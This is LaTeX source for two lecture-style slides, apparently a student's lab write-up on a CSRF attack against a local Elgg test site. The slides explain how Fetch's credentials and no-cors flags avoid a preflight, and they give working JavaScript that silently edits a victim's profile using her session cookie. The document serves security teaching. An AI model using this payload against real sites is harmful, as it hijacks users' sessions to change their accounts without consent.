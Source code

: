 \documentclass[11pt,aspectratio=169]{beamer}
\newcommand{\yes}{\textcolor{success}{\ding{52}}}
\newcommand{\no}{\textcolor{danger}{\ding{56}}}
\begin{document}
\section{Fetch API attack technique}

\begin{frame}{Upgrade requirement: from XHR/form to Fetch API}
  \begin{center}\footnotesize
  \begin{tabular}{lccc}
    \toprule
    \textbf{Criterion} & \textbf{Form submit} & \textbf{XHR} & \textbf{Fetch API}\\
    \midrule
    Stealthy (no page change) & \no & \yes & \yes\\
    Modern syntax (async) & \no & \no & \yes\\
    Assignment requirement & \no{} banned & \no{} banned & \yes{} required\\
    \bottomrule
  \end{tabular}
  \end{center}
  \medskip
  \begin{alertblock}{Two key flags}
    \footnotesize
    \texttt{credentials: 'include'} → force the browser to attach the cross-origin session cookie.\\
    \texttt{mode: 'no-cors'} + urlencoded/FormData → Simple Request, \alert{no} Preflight OPTIONS.
  \end{alertblock}
\end{frame}

\begin{frame}[fragile]{Packet analysis \& exploit code}
  \scriptsize Endpoint (real lab): \texttt{POST http://elgg.csrf.localhost:8080/action/profile/edit}
  \begin{lstlisting}[language=JS]
const payload = new URLSearchParams();
payload.append('name', 'Alice');
payload.append('description', 'CSRF attack by 23001939');
payload.append('accesslevel[description]', '2');   // 2 = Public
payload.append('guid', '56');                       // Alice's GUID
fetch('http://elgg.csrf.localhost:8080/action/profile/edit', {
  method: 'POST',
  mode: 'no-cors',          // Simple Request -> no Preflight
  credentials: 'include',   // REQUIRED: attach session cookie
  body: payload             // URLSearchParams sets a safe Content-Type
});
  \end{lstlisting}
  \footnotesize \texttt{FormData} variant: never set \texttt{Content-Type} manually (browser generates the boundary).
\end{frame}
\end{document}
